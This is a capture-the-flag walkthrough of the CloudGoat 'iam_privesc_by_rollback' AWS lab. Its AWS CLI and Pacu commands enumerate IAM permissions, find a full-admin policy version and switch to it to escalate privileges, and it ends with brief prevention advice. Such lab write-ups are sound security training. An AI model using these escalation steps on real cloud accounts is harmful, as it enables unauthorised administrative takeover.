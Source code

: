 ```yaml
---
title: 'iam_privesc_by_rollback'
date: 2018-11-28T15:14:39+10:00
---
```


---

According to the official documentation for this scenario ([here](https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/iam_privesc_by_rollback)) the overall goal is to "Acquire full admin privileges."

We can create the challenge by running

```bash
python3 cloudgoat.py create iam_privesc_by_rollback
```

The build process will begin and when it finishes we will be provided with a set of credentials for the Raynor user account.

---

### Raynor
In the real world, we probably wouldn't just be handed these credentials. However, people make mistakes and credentials are often accidentally exposed. Let's start doing basic enumeration and see if we can determine what things we have access to. To do this we'll run the following set of commands just to poke at a few of the more common services:

```bash
aws --profile solus s3 ls
aws --profile solus ec2 describe-instances
aws --profile solus iam list-roles
aws --profile solus lambda list-functions
```


All of the api calls fail with the exeption being iam list-roles. We can clean the output up by using jq:

```bash
aws --profile raynor iam list-roles | jq '.Roles[].RoleName'
```

This command will produce an output similar to the one below.

![jq-list-roles.png](images/jq-list-roles.png "img-fluid")

The key takeaway here is that we have access to a user account with some level of IAM permissions. How much access do we have? One way to find out is by leveraging Pacu to bruteforce those permissions for us. The other option is to make iam calls one at a time to determine where our limits may exist. For this example we'll leverage Pacu and run the iam__enum_users_roles_policies_groups module.

```python
run iam__enum_users_roles_policies_groups
```

Once the module finishes its execution we see that it successfully enumeated various aspects of the account.

![iam-enum-results.png](images/iam-enum-results.png "img-fluid")

We can run the data `IAM command` to see information associated with the enumeration. At first glance of the policies it appears there is a specific policy listed for our user account: `cg-raynor-policy`

```json
"Policies": [
 {
  "PolicyName": "cg-raynor-policy",
  "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
  "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
  "Path": "/",
  "DefaultVersionId": "v1",
  "AttachmentCount": 1,
  "IsAttachable": true,
  "CreateDate": "Mon, 25 May 2020 14:24:46",
  "UpdateDate": "Mon, 25 May 2020 14:24:48"
 }
],
```

Looking at the details above we can also tell that the policy is curently attached `AttachmentCount: 1` and the version being used is v1 `DefaultVersionId: v1`. If we wanted to leverage the aws cli in place of Pacu we could run the command below. The command is filtering to show only those policies which are currently attached to a resource.

```bash
aws --profile raynor iam list-policies --only-attached --scope Local

{
 "Policies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
   "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
   "Path": "/",
   "DefaultVersionId": "v1",
   "AttachmentCount": 1,
   "PermissionsBoundaryUsageCount": 0,
   "IsAttachable": true,
   "CreateDate": "2020-05-25T14:24:46Z",
   "UpdateDate": "2020-05-25T14:24:48Z"
  }
 ]
}
```

The next question we have to answer is the policy attached to our user account? We can do that by quering the list-attached-user-policies endpoint and our user name raynor. An example command and output is below.

```bash
aws --profile raynor iam list-attached-user-policies --user-name raynor

{
 "AttachedPolicies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyArn": "arn:aws:iam::121212121212:policy/cg-raynor-policy"
  }
 ]
}
```

---

### Versions

Good news, it appears the raynor policy is currently associated with the raynor user account. Lets see if we can learn more about what we are allowed to do and what we are not allowed to do. We can accomplish this by making a call to the `get-policy-version` endpoint as seen below.

```bash
aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v1
{
 "PolicyVersion": {
  "Document": {
   "Version": "2012-10-17",
   "Statement": [
    {
     "Sid": "IAMPrivilegeEscalationByRollback",
     "Action": [
      "iam:Get*",
      "iam:List*",
      "iam:SetDefaultPolicyVersion"
     ],
     "Effect": "Allow",
     "Resource": "*"
    }
   ]
  },
  "VersionId": "v1",
  "IsDefaultVersion": true,
  "CreateDate": "2020-05-25T14:24:46Z"
 }
}
```


For the call to work we specified the policy arn as well as the version currently applied. From the output it looks like we can make calls to iam resources if they are a Get, List, or SetDefaultPolicyVersion. That last one is interesting. Perhaps our currently policy has more than one version? Let's check to see if version 2 of our policy exists. The results are below:

```bash
aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v2

{
 "PolicyVersion": {
  "Document": {
   "Version": "2012-10-17",
   "Statement": [
    {
     "Action": "*",
     "Effect": "Allow",
     "Resource": "*"
    }
   ]
  },
  "VersionId": "v2",
  "IsDefaultVersion": false,
  "CreateDate": "2020-05-25T14:24:48Z"
 }
}
```

Interesting, a version 2 of the policy does exist, and it gives full admin access to the entire account. Our current policy provides us with the ability to set the default version of a policy. If we were to change the default version of the policy currently applied to our user account from 1 to 2 we could escalate our privledges to full admin.

The command below will accomplish this.

```bash
aws --profile raynor iam set-default-policy-version --policy arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v2
```

If successful there will be no response. We can validate the command was successful by re-running the `list-policies` command:

```bash
aws --profile raynor iam list-policies --only-attached --scope Local

{
 "Policies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
   "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
   "Path": "/",
   "DefaultVersionId": "v2",
   "AttachmentCount": 1,
   "PermissionsBoundaryUsageCount": 0,
   "IsAttachable": true,
   "CreateDate": "2020-05-25T14:24:46Z",
   "UpdateDate": "2020-05-25T18:28:50Z"
  }
 ]
}
```

Notice the default version has changed from `v1` to `v2`. At this point we have full administrative rights to this aws account.

---

### Prevention
So, how do we prevent this. Where did the owner of this account go wrong? There are a few places where this could have be stopped. Lets dive into them.

1. The most important is to not expose credentials. If we were not able to leverage raynors credentials we would not have been able to authenticate and further escalate privileges.
2. Limit what users can do. The policy associated with raynor allowed for too much access. I imagine in the real world a user with this set of actions at there disposal would likely have much more persmissions within the account.